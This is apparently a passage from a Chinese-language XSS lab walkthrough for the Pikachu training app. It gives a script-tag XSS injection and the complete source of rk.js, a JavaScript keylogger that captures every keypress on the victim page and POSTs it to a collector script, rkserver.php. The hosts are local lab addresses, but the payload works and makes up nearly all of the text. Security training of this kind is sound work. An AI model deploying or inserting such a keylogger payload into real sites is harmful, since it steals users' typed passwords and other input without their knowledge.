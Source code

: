 ### Let's hack it！

1. `rk.js`：构造 XSS Payload

   ```js
   <script src="http://127.0.0.1/pikachu/pkxss/rkeypress/rk.js"></script>
   ```

   ```js
   function createAjax(){
       var request=false;
       if(window.XMLHttpRequest){
           request=new XMLHttpRequest();
           if(request.overrideMimeType){
               request.overrideMimeType("text/xml");
           }
   
       }else if(window.ActiveXObject){
   
           var versions=['Microsoft.XMLHTTP', 'MSXML.XMLHTTP', 'Msxml2.XMLHTTP.7.0','Msxml2.XMLHTTP.6.0','Msxml2.XMLHTTP.5.0', 'Msxml2.XMLHTTP.4.0', 'MSXML2.XMLHTTP.3.0', 'MSXML2.XMLHTTP'];
           for(var i=0; i<versions.length; i++){
               try{
                   request=new ActiveXObject(versions[i]);
                   if(request){
                       return request;
                   }
               }catch(e){
                   request=false;
               }
           }
       }
       return request;
   }
   
   var ajax=null;
   var xl="datax=";
   
   function onkeypress() {
       var realkey = String.fromCharCode(event.keyCode);
       xl+=realkey;
       show();
   }
   
   document.onkeypress = onkeypress;
   
   function show() {
       ajax = createAjax();
       ajax.onreadystatechange = function () {
           if (ajax.readyState == 4) {
               if (ajax.status == 200) {
                   var data = ajax.responseText;
               } else {
                   alert("页面请求失败");
               }
           }
       }
   
       var postdate = xl;
       ajax.open("POST", "http://127.0.0.1/pikachu/pkxss/rkeypress/rkserver.php",true);
       ajax.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
       ajax.setRequestHeader("Content-length", postdate.length);
       ajax.setRequestHeader("Connection", "close");
       ajax.send(postdate);
   }
   ```